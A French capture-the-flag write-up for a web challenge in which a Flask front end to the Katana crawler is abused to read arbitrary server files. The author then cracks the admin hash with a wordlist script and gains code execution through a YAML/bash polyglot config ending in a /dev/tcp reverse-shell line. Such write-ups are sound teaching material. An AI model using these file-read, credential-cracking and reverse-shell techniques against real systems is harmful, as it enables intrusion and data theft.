



# Samurai: A Thousand cuts

# Flag 1
## Recon

Information donnée: 
- http://$REDACTED:$REDACTED
- Utilise l'outil `Katana` pour faire de l'enumeration

Voici le site


La page admin est proteger par un login

On a un lien admin ainsi qu'un formulaire pour entre une URL
Testons quelque possibilite



Si on inspecte la requete avec Burp

```
POST /api/slash HTTP/1.1
Host: REDACTED
Content-Length: 51
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://REDACTED
Referer: http://REDACTED/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"url":"http://perdu.com","excluded":"private-ips"}
```

Donc 2 parametre sont envoyer a la requete `{"url":"http://perdu.com","excluded":"private-ips"}`

Sa semble etre un vrai produit. Et effectivement: https://github.com/projectdiscovery/katana il existe. Je prefere toujours etre en local donc je l'install!

A force de jouer avec je me rend compte que je peux lui passer un fichier `katana -u /etc/passwd`
```
[INF] Current katana version v1.1.0 (latest)
[INF] Started standard crawling for => https://_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
[INF] Started standard crawling for => https://mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
[INF] Started standard crawling for => https://daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[INF] Started standard crawling for => https://bin:x:2:2:bin:/bin:/usr/sbin/nologin
[INF] Started standard crawling for => https://news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
[INF] Started standard crawling for => https://games:x:5:60:games:/usr/games:/usr/sbin/nologin
[INF] Started standard crawling for => https://sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
[INF] Started standard crawling for => https://uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
https://uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
https://mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
[INF] Started standard crawling for => https://root:x:0:0:root:/root:/bin/bash
https://daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
https://root:x:0:0:root:/root:/bin/bash
https://bin:x:2:2:bin:/bin:/usr/sbin/nologin
https://news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
https://games:x:5:60:games:/usr/games:/usr/sbin/nologin
^C[INF] - Ctrl+C pressed in Terminal
```

Cependant il tente rellement d'enumerer comme si chaque ligne etait un URL, sans validation. 
Le parametre `excluded` de la requete me pointe vers l'analyse du `--help`
```
Katana is a fast crawler focused on execution in automation
pipelines offering both headless and non-headless crawling.

Usage:
  katana [flags]

Flags:
INPUT:
   -u, -list string[]     target url / list to crawl
   -resume string         resume scan using resume.cfg
   -e, -exclude string[]  exclude host matching specified filter ('cdn', 'private-ips', cidr, ip, regex)
   ^------------------------------------------------------------------------------------------------^
```
Je peux donc passer une regex pour qu'il ignore toute les lignes du fichier qui match dans cette regex
Essayons `^.*$`

Effectivement cela fonctionne, je crois donc etre en mesure de lire n'importe quel fichier accessible depuis l'utilisateur qui execute katana sur la cible.

## Exploitation
Je tente avec `/etc/passwd`
<details>

```
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Wed, 23 Oct 2024 23:09:31 GMT
Content-Type: application/json
Content-Length: 2107
Connection: close

{"results":"\n   __        __                \n  / /_____ _/ /____ ____  ___ _\n /  &#39;_/ _  / __/ _  / _ \\/ _  /\n/_/\\_\\\\_,_/\\__/\\_,_/_//_/\\_,_/\t\t\t\t\t\t\t \n\n\t\tprojectdiscovery.io\n\n[\u001b[34mINF\u001b[0m] Current katana version v1.1.0 (\u001b[92mlatest\u001b[0m)\n[INF] Skipping excluded host man:x:6:12:man:/var/cache/man:/usr/sbin/nologin\n[INF] Skipping excluded host lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\n[INF] Skipping excluded host www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\n[INF] Skipping excluded host messagebus:x:100:101::/nonexistent:/usr/sbin/nologin\n[INF] Skipping excluded host systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin\n[INF] Skipping excluded host debian:x:1000:1001:Debian:/home/debian:/bin/bash\n[INF] Skipping excluded host daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n[INF] Skipping excluded host games:x:5:60:games:/usr/games:/usr/sbin/nologin\n[INF] Skipping excluded host mail:x:8:8:mail:/var/mail:/usr/sbin/nologin\n[INF] Skipping excluded host backup:x:34:34:backup:/var/backups:/usr/sbin/nologin\n[INF] Skipping excluded host _apt:x:42:65534::/nonexistent:/usr/sbin/nologin\n[INF] Skipping excluded host systemd-resolve:x:997:997:systemd Resolver:/:/usr/sbin/nologin\n[INF] Skipping excluded host root:x:0:0:root:/root:/bin/bash\n[INF] Skipping excluded host bin:x:2:2:bin:/bin:/usr/sbin/nologin\n[INF] Skipping excluded host sync:x:4:65534:sync:/bin:/bin/sync\n[INF] Skipping excluded host news:x:9:9:news:/var/spool/news:/usr/sbin/nologin\n[INF] Skipping excluded host list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\n[INF] Skipping excluded host irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\n[INF] Skipping excluded host sys:x:3:3:sys:/dev:/usr/sbin/nologin\n[INF] Skipping excluded host uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\n[INF] Skipping excluded host proxy:x:13:13:proxy:/bin:/usr/sbin/nologin\n[INF] Skipping excluded host nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n[INF] Skipping excluded host challenge:x:1001:1002::/home/challenge:/usr/bin/bash\n"}
```

</details>

Sa semble bon!
Donc le users est probablement `challenge` Quel autre information utile pourrais-je obtenir ? Essayons d'en savoir un peu plus sur le processus
Je me doute que le framework utilisee est `Flask` car dans les headers: `Server: Werkzeug/2.2.2 Python/3.11.2`

Je tente d'obtenir `/proc/self/cmdline` cependant j'obtiens quelque chose d'illisible. Je fais donc un query vers `/proc/self/status`
J'obtiens sont PID `[INF] Skipping excluded host Pid:\t234`

Voici la reponse du serveur
```
Current katana version v1.1.0 (\u001b[92mlatest\u001b[0m)\n[INF] Skipping excluded host /usr/bin/python3\u0000/opt/app/samurai/samurai.py\u0000\n"
```

Donc le code se situe ici: `/opt/app/samurai/samurai.py`, je vais pouvoir lire le code et probablement y trouver une faille!
Derniere requete pour obtenir le code source:


<details>


```
{"results":"\n   __        __                \n  / /_____ _/ /____ ____  ___ _\n /  &#39;_/ _  / __/ _  / _ \\/ _  /\n/_/\\_\\\\_,_/\\__/\\_,_/_//_/\\_,_/\t\t\t\t\t\t\t \n\n\t\tprojectdiscovery.io\n\n[\u001b[34mINF\u001b[0m] Current katana version v1.1.0 (\u001b[92mlatest\u001b[0m)\n[INF] Skipping excluded host import os\n[INF] Skipping excluded host return redirect(&#39;/admin&#39;)\n[INF] Skipping excluded host def slash():\n[INF] Skipping excluded host password = request.form.get(&#39;password&#39;, None)\n[INF] Skipping excluded host session.pop(&#39;username&#39;)\n[INF] Skipping excluded host app.config[&#39;UPLOAD_FOLDER&#39;] = UPLOAD_FOLDER\n[INF] Skipping excluded host app.secret_key = random.randbytes(100).hex()\n[INF] Skipping excluded host def hashpass(password):\n[INF] Skipping excluded host h = hashlib.md5()\n[INF] Skipping excluded host &#39;-rl&#39;, &#39;30&#39;,\n[INF] Skipping excluded host if request.method == &#34;GET&#34;:\n[INF] Skipping excluded host # Make errors appears in a dedicated div.\n[INF] Skipping excluded host def hyper_slash():\n[INF] Skipping excluded host @app.route(&#39;/admin&#39;, methods=[&#39;GET&#39;, &#39;POST&#39;])\n[INF] Skipping excluded host @app.route(&#39;/login&#39;, methods=[&#39;GET&#39;, &#39;POST&#39;])\n[INF] Skipping excluded host import hashlib\n[INF] Skipping excluded host from flask import Flask, request, jsonify, render_template, session, redirect, g\n[INF] Skipping excluded host stdout = subprocess.check_output([&#39;katana&#39;,\n[INF] Skipping excluded host return render_template(&#39;login.html&#39;)\n[INF] Skipping excluded host # FINCTF-884ee1a1ea051c41f5222ba7284db7\n[INF] Skipping excluded host app = Flask(__name__)\n[INF] Skipping excluded host import time\n[INF] Skipping excluded host &#39;-nc&#39;,\n[INF] Skipping excluded host cur = get_db().cursor()\n[INF] Skipping excluded host session[&#39;username&#39;] = request.form[&#39;username&#39;]\n[INF] Skipping excluded host &#39;-d&#39;, &#39;3&#39;,\n[INF] Skipping excluded host return &#34;BAD REQUEST, empty username or password.&#34;, 400\n[INF] Skipping excluded host if auth is None:\n[INF] Skipping excluded host return db\n[INF] Skipping excluded host os.unlink(filename)\n[INF] Skipping excluded host if &#39;file&#39; not in request.files:\n[INF] Skipping excluded host hashed_password = hashpass(password)\n[INF] Skipping excluded host def get_db():\n[INF] Skipping excluded host if not request.is_json:\n[INF] Skipping excluded host def close_connection(exception):\n[INF] Skipping excluded host url = values.get(&#39;url&#39;, None)\n[INF] Skipping excluded host epoch_time = str(int(time.time()))\n[INF] Skipping excluded host def login():\n[INF] Skipping excluded host @app.route(&#34;/api/slash&#34;, methods=[&#39;POST&#39;])\n[INF] Skipping excluded host values = request.get_json()\n[INF] Skipping excluded host &#39;-e&#39;, excluded,\n[INF] Skipping excluded host except subprocess.CalledProcessError as e:\n[INF] Skipping excluded host return render_template(&#39;home.html&#39;)\n[INF] Skipping excluded host return jsonify(results=&#34;Error, empty url given.&#34;), 400\n[INF] Skipping excluded host &#39;-u&#39;, url,\n[INF] Skipping excluded host @app.route(&#39;/logout&#39;, methods=[&#39;GET&#39;])\n[INF] Skipping excluded host # Cleanup UI\n[INF] Skipping excluded host ALLOWED_EXTENSIONS = {&#39;yml&#39;, &#39;yaml&#39;}\n[INF] Skipping excluded host if db is None:\n[INF] Skipping excluded host open(filename, &#39;wb&#39;).write(config)\n[INF] Skipping excluded host redirect(&#39;/admin&#39;)\n[INF] Skipping excluded host def home():\n[INF] Skipping excluded host import subprocess\n[INF] Skipping excluded host return jsonify(results=escape(stdout.decode(&#39;utf-8&#39;, errors=&#39;ignore&#39;))), 200\n[INF] Skipping excluded host @app.route(&#34;/admin/api/slash&#34;, methods=[&#39;POST&#39;])\n[INF] Skipping excluded host config = None\n[INF] Skipping excluded host return jsonify(results=&#34;Error, invalid config file&#34;), 400\n[INF] Skipping excluded host try:\n[INF] Skipping excluded host return jsonify(results=&#34;FORBIDDEN, not admin.&#34;), 403\n[INF] Skipping excluded host if not os.path.exists(&#34;/tmp/admin-configs&#34;):\n[INF] Skipping excluded host UPLOAD_FOLDER = &#39;admin&#39;\n[INF] Skipping excluded host return jsonify(results=&#34;Error, invalid json request.&#34;), 400\n[INF] Skipping excluded host def admin():\n[INF] Skipping excluded host def logout():\n[INF] Skipping excluded host @app.route(&#39;/&#39;, methods=[&#39;GET&#39;])\n[INF] Skipping excluded host import base64\n[INF] Skipping excluded host &#39;-f&#39;, &#39;url&#39;],  stderr=subprocess.STDOUT, errors=&#34;ignore&#34;)\n[INF] Skipping excluded host if url is None or url == &#39;&#39;:\n[INF] Skipping excluded host if &#39;username&#39; not in session:\n[INF] Skipping excluded host &#39;--crawl-duration&#39;, &#39;10&#39;,\n[INF] Skipping excluded host #!/usr/bin/env python3\n[INF] Skipping excluded host db = getattr(g, &#39;_database&#39;, None)\n[INF] Skipping excluded host config = base64.b64decode(values.get(&#39;config&#39;, None).encode())\n[INF] Skipping excluded host username = request.form.get(&#39;username&#39;, None)\n[INF] Skipping excluded host import random\n[INF] Skipping excluded host # TODO:\n[INF] Skipping excluded host if &#39;username&#39; in session:\n[INF] Skipping excluded host DATABASE = &#39;db/samurai.db&#39;\n[INF] Skipping excluded host excluded = values.get(&#39;excluded&#39;, &#39;&#39;)\n[INF] Skipping excluded host &#39;-f&#39;, &#39;url&#39;],  stderr=subprocess.STDOUT)\n[INF] Skipping excluded host return redirect(&#39;/login&#39;)\n[INF] Skipping excluded host auth = cur.execute(&#39;SELECT user_id FROM users WHERE username = ? and password = ?&#39;, (username, hashed_password,)).fetchone()\n[INF] Skipping excluded host if db is not None:\n[INF] Skipping excluded host os.chmod(filename, 0o700)\n[INF] Skipping excluded host if username is None or password is None:\n[INF] Skipping excluded host if __name__ == &#34;__main__&#34;:\n[INF] Skipping excluded host h.update(password.encode())\n[INF] Skipping excluded host @app.teardown_appcontext\n[INF] Skipping excluded host db.close()\n[INF] Skipping excluded host return jsonify(results=&#34;Invalid JSON given.&#34;), 400\n[INF] Skipping excluded host if &#39;username&#39; not in session or session[&#39;username&#39;] != &#39;admin&#39;:\n[INF] Skipping excluded host os.mkdir(&#34;/tmp/admin-configs&#34;)\n[INF] Skipping excluded host &#39;-config&#39;, filename,\n[INF] Skipping excluded host db = g._database = sqlite3.connect(DATABASE)\n[INF] Skipping excluded host return jsonify(results=escape(e.output)), 200\n[INF] Skipping excluded host except:\n[INF] Skipping excluded host return render_template(&#39;admin.html&#39;)\n[INF] Skipping excluded host app.run(&#34;0.0.0.0&#34;, port=8000)\n[INF] Skipping excluded host import sqlite3\n[INF] Skipping excluded host from markupsafe import escape\n[INF] Skipping excluded host return &#39;-&#39;.join([str(int(b)) for b in h.digest()])\n[INF] Skipping excluded host filename = f&#34;/tmp/admin-configs/config-{epoch_time}.yml&#34;\n"}

```

</details>

En analysant le resultat et bien le flag est present dans le code source `# FINCTF-884ee1a1ea051c41f5222ba7284db7\n`

# Flag 2: Final Strike

Bon, les lignes n'arrive pas tous dans le bon ordre. Ayant un peu de connaissances de flask lets go!

<details>

```python
#!/usr/bin/env python3

import os
import random
import time
import base64
import hashlib
import sqlite3
import subprocess
from flask import Flask, request, jsonify, render_template, session, redirect, g
from markupsafe import escape

app = Flask(__name__)
UPLOAD_FOLDER = 'admin'
ALLOWED_EXTENSIONS = {'yml', 'yaml'}
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
app.secret_key = random.randbytes(100).hex()


def get_db():
    """Connect to the database."""
    try:
        DATABASE = 'db/samurai.db'
        db = g._database = sqlite3.connect(DATABASE)
        return db
    except:
        return None


@app.teardown_appcontext
def close_connection(exception):
    """Close the database connection."""
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()


@app.route('/login', methods=['GET', 'POST'])
def login():
    """Handle login logic."""
    if request.method == "GET":
        return render_template('login.html')

    username = request.form.get('username', None)
    password = request.form.get('password', None)

    if username is None or password is None:
        return "BAD REQUEST, empty username or password.", 400

    hashed_password = hashpass(password)
    cur = get_db().cursor()
    auth = cur.execute('SELECT user_id FROM users WHERE username = ? and password = ?', (username, hashed_password,)).fetchone()

    if auth is None:
        return jsonify(results="FORBIDDEN, not admin."), 403

    session['username'] = request.form['username']
    return redirect('/admin')


@app.route('/admin', methods=['GET', 'POST'])
def admin():
    """Render the admin page."""
    if 'username' not in session or session['username'] != 'admin':
        return jsonify(results="FORBIDDEN, not admin."), 403

    if request.method == "GET":
        return render_template('admin.html')


@app.route('/logout', methods=['GET'])
def logout():
    """Handle logout logic."""
    session.pop('username')
    return redirect('/login')


@app.route("/admin/api/slash", methods=['POST'])
def hyper_slash():
    """Handle the slash API."""
    values = request.get_json()

    if not request.is_json:
        return jsonify(results="Invalid JSON given."), 400

    url = values.get('url', None)

    if url is None or url == '':
        return jsonify(results="Error, empty url given."), 400

    filename = f"/tmp/admin-configs/config-{str(int(time.time()))}.yml"
    open(filename, 'wb').write(base64.b64decode(values.get('config', None).encode()))
    os.chmod(filename, 0o700)

    try:
        stdout = subprocess.check_output(['katana', '-u', url, '-config', filename, '-d', '3'], stderr=subprocess.STDOUT, errors="ignore") # '-nc',
        return jsonify(results=escape(stdout.decode('utf-8', errors='ignore'))), 200
    except subprocess.CalledProcessError as e:
        return jsonify(results=escape(e.output)), 200


@app.route('/api/slash', methods=['POST'])
def slash():
    values = request.get_json()
    """Handle the API slash."""
    if 'username' not in session:
        return "BAD REQUEST, empty username or password.", 400

    url = values.get('url', None)
    excluded = values.get('excluded', '')
    stdout = subprocess.check_output(['katana', '-u', url,'-e', excluded,], stderr=subprocess.STDOUT, errors="ignore")
    return jsonify(results=escape(stdout.decode('utf-8', errors='ignore'))), 200


def hashpass(password):
    """Hash the password using MD5."""
    h = hashlib.md5()
    h.update(password.encode())
    return '-'.join([str(int(b)) for b in h.digest()])


if __name__ == "__main__":
    if not os.path.exists("/tmp/admin-configs"):
        os.mkdir("/tmp/admin-configs")
    app.run("0.0.0.0", port=8000)
```

</details>

Cela ne doit pas etre exactement la meme chose, mais suffisant pour comprendre le comportement de l'application.
La page `/admin/api/slash` m'interesse beaucoup mais... je n'ai pas de crendetials.

Voyons voir si je peux tirer quelque chose de `DATABASE = 'db/samurai.db'`
Je tente donc de l'imprimer sans grand espoir, cependant une ligne attire mon attention
`\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000?\u0001\u0004\u0000\u0017yadmin106-96-215-5-36-151-169-80-127-65-83-104-110-43-81-150`

Et le bout de code suivant m'indique que les password sont hacher en `md5`

```python
def hashpass(password):
    """Hash the password using MD5."""
    h = hashlib.md5()
    h.update(password.encode())
    return '-'.join([str(int(b)) for b in h.digest()])
```

Je tente avec le classique rockyou.txt

```python
import hashlib

def hashpass(password):
    h = hashlib.md5()
    h.update(password.encode())
    return '-'.join([str(int(b)) for b in h.digest()])

with open('/usr/share/wordlists/rockyou.txt', 'r', encoding='utf-8', errors='ignore') as f:
    for line in f:
        password = line.strip()
        if hashpass(password) == '106-96-215-5-36-151-169-80-127-65-83-104-110-43-81-150':
            print(f"Le mot de passe est : {password}")
            break
```

Quelque minute suivante: 

```bash
python brute_md5.py 
Le mot de passe est : CyberShogun
```

Good j'ai access a la page admin! `admin:CyberShogun`



Donc maintenant je peux passer un fichier de configuration a `katana`. 

Donc je cherche quel sont les options de katana encore une fois qui pourrais m'etre utile....


```
[...]
HEADLESS:
   -hl, -headless                    enable headless hybrid crawling (experimental)
   -sc, -system-chrome               use local installed chrome browser instead of katana installed
   -sb, -show-browser                show the browser on the screen with headless mode
   -ho, -headless-options string[]   start headless chrome with additional options
   -nos, -no-sandbox                 start headless chrome in --no-sandbox mode
   -cdd, -chrome-data-dir string     path to store chrome browser data
---------------------------------------------------------------------------------------------
   -scp, -system-chrome-path string  use specified chrome browser for headless crawling
   ^---- Ohh, je peux lui passer le PATH d'un binaire! Interessant!
---------------------------------------------------------------------------------------------
   -noi, -no-incognito               start headless chrome without incognito mode
   -cwu, -chrome-ws-url string       use chrome browser instance launched elsewhere with the debugger listening at this URL
   -xhr, -xhr-extraction             extract xhr request url,method in jsonl output
[...]
```

C'est a ce moment que j'ai tenter de faire un RCE en invoquant des binaires commun. 
La problematique est que katana ajoute un paquet d'option qui sont destiner a chrome et qui ruine mes chances d'invoquer un reverse shell
Je l'ai appris en faisant ceci...

```
POST /admin/api/slash HTTP/1.1
Host: REDACTED
Content-Length: 50
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://REDACTED
Referer: http://REDACTED/admin
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.ZxmJGQ.ZRkh4QKXxZcncn4TTFuQ_pacE34
Connection: keep-alive

{"url":"http://perdu.com","config":"YAML_FILE_IN_BASE64"}
```

Voici le fichier yaml envoyer

```yaml
---
list: 
  - http://perdu.com
system-chrome-path: "/usr/bin/echo"
headless: true
```
Et le resultat:

```
--disable-background-networking --disable-background-timer-throttling --disable-backgrounding-occluded-windows --disable-breakpad --disable-client-side-phishing-detection --disable-component-extensions-with-background-pages --disable-crash-reporter=true --disable-default-apps --disable-dev-shm-usage --disable-features=site-per-process,TranslateUI --disable-gpu=true --disable-hang-monitor --disable-ipc-flooding-protection --disable-notifications=true --disable-popup-blocking --disable-prompt-on-repost --disable-renderer-backgrounding --disable-sync --enable-automation --enable-features=NetworkService,NetworkServiceInProcess --force-color-profile=srgb --headless --hide-scrollbars=true --ignore-certificate-errors=1 --metrics-recording-only --mute-audio=true --no-first-run --no-startup-window --remote-debugging-port=0 --user-data-dir=/tmp/katana-758657918 --window-size=1080,1920
```

Et la j'ai un eclaire de genie... si le fichier de configuration aurais un comportement lorsque lu et un autre lorsqu'executer!

Je n'y arrive pas! et c'est le lendemain matin que foxtrot me mentionner la chose suivante:

> foxtrot: Savais-tu que `...` signifie la fin d'un fichier yaml?

Moi:


Dernier point que je n'ai pas parler. Dans le nom du fichier cree sur le disque 
```python
filename = f"/tmp/admin-configs/config-{str(int(time.time()))}.yml"
```
Le temps en EPOCH est ajouter au fichier, j'utile donc une 2e console avec la commande `watch -n1 date +%s` afin d'avoir le temps en epoch "live"
Je forge le payload suivant environ 10seconde d'avance avec `pwncat` qui ecoute et attend impatiament le reverse shell

```yaml
#!/bin/bash 
---
list: 
  - http://perdu.com
system-chrome-path: "/tmp/admin-configs/config-$VALEUR_EN_EPOCH.yml"
headless: true
...
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```

On l'encode en base64 et je me tien pret a appuyer sur le boutton!

.......

Bon je n'ai pas ete capable de le refaire en quelque tentative j'ai donc simplement executer katana localement et il s'est bel et bien connecter sur mon listener.
Lors du CTF j'ai eu ma connection du premier coup. Sinon j'aurais automatise la requetes

Avec une execution locale
```
[20:25:49] Welcome to pwncat 🐈!                                                                         __main__.py:164
[20:25:52] received connection from XX.XX.XX.X:XXXXXXX                                                        bind.py:84
```

Le flag etait de memoire accessible simplement sur le disque.